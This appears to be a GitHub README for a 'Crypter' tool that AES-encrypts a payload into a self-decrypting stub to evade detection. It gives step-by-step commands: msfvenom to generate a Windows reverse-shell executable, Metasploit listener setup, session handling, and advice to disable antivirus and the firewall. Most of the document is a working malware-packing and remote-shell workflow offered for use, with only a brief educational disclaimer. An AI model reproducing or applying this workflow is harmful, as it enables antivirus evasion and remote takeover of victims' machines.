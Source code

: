 # Crypter

## 🔹Description
This script encrypts an executable (payload) using AES encryption and generates a decryption stub. The stub decrypts and executes the payload, making detection and analysis more difficult. It is designed for educational purposes and security research.

## 🛠 Features
- Encrypts a given executable using AES in CTR mode.
- Generates a Python stub that decrypts and executes the payload.
- Uses `pyinstaller` to create a standalone executable.

## 🚀 How It Works
1. The script reads the `shell.exe` file (payload).
2. Encrypts it using AES encryption.
3. Generates a stub script (`stub.py`) containing the encrypted payload.
4. Converts `stub.py` into an executable using `pyinstaller`.
5. When executed, the stub decrypts the payload and runs it.

## 📌 Requirements
- Python 3
- `pyaes` module
- `pyinstaller`
- Metasploit Framework (for payload generation and listener)

## 🔧 Installation
```bash
pip install pyaes pyinstaller
```

## 📦 Usage
### 1️⃣ Generate the Payload
Use `msfvenom` to create a reverse shell payload:
```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=<your_ip> lport=443 -f exe > shell.exe
```
Place the `shell.exe` file in the script's directory.

### 2️⃣ Encrypt the Payload
Run the script:
```bash
python crypto.py
```
It will generate `stub.py` and convert it into an executable inside the `dist` folder.

### 3️⃣ Start Metasploit Listener
Open Metasploit and set up the listener:
```bash
msfconsole
use multi/handler
set payload windows/x64/shell_reverse_tcp
set lhost <your_ip>
set lport 443
set exitonsession 0
exploit -j
```

### 4️⃣ Execute the Stub
Run the generated executable (`dist/stub.exe`). This will decrypt and execute the payload. If successful, you will receive a session in Metasploit.

### 5️⃣ Manage Sessions
- View active sessions:
  ```bash
  sessions
  ```
- Interact with a session:
  ```bash
  sessions <id>
  ```

## ⚠ Disclaimer
Use this script only in controlled environments such as penetration testing labs, with explicit permission. Misuse of this tool for unauthorized access to systems is illegal and may result in severe consequences. **The risk is yours**.

## Observation
- The antivirus may detect suspicious activity during the creation of the executable. To minimize this risk, it is recommended to **disable the antivirus and firewall** while generating the executable. 

